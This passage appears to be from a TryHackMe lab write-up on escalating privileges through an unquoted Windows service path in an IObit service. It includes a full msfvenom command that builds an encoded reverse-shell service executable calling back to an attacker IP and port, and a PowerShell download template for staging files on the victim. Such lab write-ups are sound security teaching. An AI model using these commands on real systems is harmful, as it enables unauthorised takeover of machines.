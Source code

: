 This consist in a use of the behaviour of autocomplete windows-path feature. If the path isn't correctly couted Windows understand that the spaces mark parameters of the file to be executed, thus, Windows asume that executable is C:\\Programs and the rest are parameters, if the system doesn't found any executable matching the name, then will complete the path C:\\Program Files(x86)\\IObit\\Advanced.

Thus, if we have writable permissions on the IObit directory we could generate a malware and call it Advanced.exe on the IObit directory making that Windows math our malware with the executable that the services requiere to start. The all we need is to restart correctly the service to make the system run our malware.

First, we make a malicious payload for windows services with MsfVenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.207.230 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

This command employs the msfvenom utility to make a shell_reverse_tcp for windows with architecture of x86 and format of service executable:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221008170314.png' | relative_url }}" text-align="center"/>
</div>

And then we upload it to the correct directory:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221008170348.png' | relative_url }}" text-align="center"/>
</div>

Finally, we make a listener in our attack machine and restart the service:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221008170557.png' | relative_url }}" text-align="center"/>
</div>

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221008170616.png' | relative_url }}" text-align="center"/>
</div>

And we have gain full control over the machine.

<br />

We could do this without a meterpreter shell using manual powershell commands. The procedure is the same but it will be useful the following commands:

- *Invoke-WebRequest* to download files to the victim machine:

```powershell
Invoke-WebRequest -Uri <source> -OutFile <destination>
```

- *Get-Acl*, to see writeable permissions of a folder:
